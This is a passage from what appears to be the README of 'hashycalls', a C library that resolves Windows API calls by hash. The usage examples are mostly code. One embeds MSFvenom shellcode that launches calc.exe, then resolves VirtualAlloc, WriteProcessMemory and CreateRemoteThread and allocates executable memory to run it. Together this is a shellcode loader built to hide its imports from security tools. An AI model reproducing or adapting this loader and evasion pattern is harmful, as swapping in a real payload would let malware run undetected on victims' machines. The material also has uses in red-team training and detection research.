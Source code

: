 ```C
		printf("Failed to make thread. error: %d\n", GetLastError());
		return -1;
	}
	printf("created new thread\n");
	WaitForSingleObject_(hThread, INFINITE);

	printf("done\n");
	return 0;
}
```

#### Global Template

When using the global template, the developer must call the **initApiCalls()** function to resolve the API_CALL_LIST structure. This function resolves all of the specified functions hashes into addresses which are stored in a structure with the variable name **HashedAPI**. This function only needs to be called once, prior to using any of the hashed function calls.

To access these functions, the developer can call the **GET_FUNCTION_CALL** macro which resolves the function hash into an address found in the structure.

```C
#include "hashycalls.h"
#include <stdio.h>

// MSFvenom calc shellcodez
const byte calc[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
  0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52,
  0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed,
  0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88,
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 0x88, 0x48,
  0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1,
  0x38, 0xe0, 0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49,
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a,
  0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00,
  0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b,
  0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47,
  0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e,
  0x65, 0x78, 0x65, 0x00
};

int main() {

	if (!(InitApiCalls())) {
		return -1;
	}

    /* Get the function calls from the HashedAPI structure */
	GET_FUNCTION_CALL(VirtualAlloc);
	GET_FUNCTION_CALL(WriteProcessMemory);
	GET_FUNCTION_CALL(CreateRemoteThread);
    GET_FUNCTION_CALL(WaitForSingleObject);

	PVOID pBase = VirtualAlloc_(NULL, sizeof(calc), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (!pBase) {
		printf("Error virtual alloc: %d\n", GetLastError());
		return -1;
	}
```